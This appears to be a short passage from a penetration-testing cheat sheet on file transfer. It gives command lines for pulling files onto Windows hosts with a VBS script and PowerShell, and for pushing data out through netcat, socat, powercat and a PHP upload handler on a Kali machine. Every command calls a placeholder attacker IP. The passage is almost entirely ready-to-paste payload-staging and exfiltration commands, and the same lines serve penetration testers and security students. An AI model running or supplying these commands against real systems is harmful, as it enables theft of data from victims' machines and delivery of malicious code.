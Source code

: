 ```
echo ts.Close >> wget.vbs
```

Run VBS script to download file
```
cscript wget.vbs http://<IP>/<FILE> <FILE>
```

#### Powershell download file
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/<FILE>', '<FILE>')
```
```
powershell -c "Invoke-WebRequest -Uri 'http://<IP>/<FILE>' -OutFile 'C:\Windows\Temp\<FILE>'"
```

### Upload files
#### Netcat listener for file
```
nc -nlvp <PORT> > <FILE>
```

#### Netcat send file
```
nc -nv <IP> <PORT> <FILE>
```

#### Socat listener for file to send
```
sudo socat TCP4-LISTEN:<PORT>,fork file:<FILE>
```

#### Socat get file
```
socat TCP4:<IP>:<PORT> file:<FILE>,create
```

#### Powercat send file
```
powercat -c <IP> -p <PORT> -i <FILE>
```

#### Upload Windows data through HTTP Post request
make /var/www/upload.php on kali
```
<?php
$uploaddir = '/var/www/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Upload file in Windows client
```
powershell (New-Object System.Net.WebClient).UploadFile('http://<IP>/upload.php', '<FILE>')
```
